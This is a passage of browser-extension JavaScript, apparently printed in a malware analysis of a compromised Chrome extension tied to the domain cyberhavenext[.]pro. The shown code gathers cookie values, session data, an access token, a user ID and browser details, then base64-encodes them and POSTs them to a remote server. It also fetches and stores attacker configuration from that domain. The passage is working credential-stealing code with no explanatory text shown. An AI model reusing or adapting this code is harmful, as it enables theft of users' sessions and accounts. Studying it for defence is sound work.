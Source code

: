 ```javascript
						secure: t.secure,
						session: t.session,
						storeId: t.storeId || null,
						value: t.value
					})), c = e.n;
				let s = '';
				try {
					s = btoa(JSON.stringify(e.openapi_u));
				} catch (t) {
				}
				const i = e.openapi_tk + ' || ' + JSON.stringify(o) + ' || ' + btoa(navigator[c]) + ' || ' + e.uid + ' || ' + s + ' ||  || ' + e.k, r = {
						ms1: btoa(i),
						ms2: JSON.stringify(e.cyberhavenext_cx),
						ms3: JSON.stringify(e.gpta)
					}, l = t.url;
				fetch(l, {
					method: 'POST',
					headers: {
						Accept: 'application/json, application/xml, text/plain, text/html, *.*',
						'Content-Type': 'application/json'
					},
					body: JSON.stringify(r)
				}).then(t => t.json()).then(t => a(t)).catch(t => {
				});
			}
		});
	}
	return !0;
}), async function () {
	try {
		const t = await fetch('https://cyberhavenext[.]pro/ai-cyberhaven', {
			method: 'POST',
			headers: {
				Accept: 'application/json, application/xml, text/plain, text/html, *.*',
				'Content-Type': 'application/json'
			}
		});
		if (!t.ok)
			throw new Error(`HTTP error! Status: ${ t.status }`);
		const e = await t.json();
		await chrome.storage.local.set({ cyberhavenext_ext_manage: JSON.stringify(e) }), console.log('Data successfully stored!');
	} catch (t) {
		console.error('An error occurred:', t);
	}
}();
```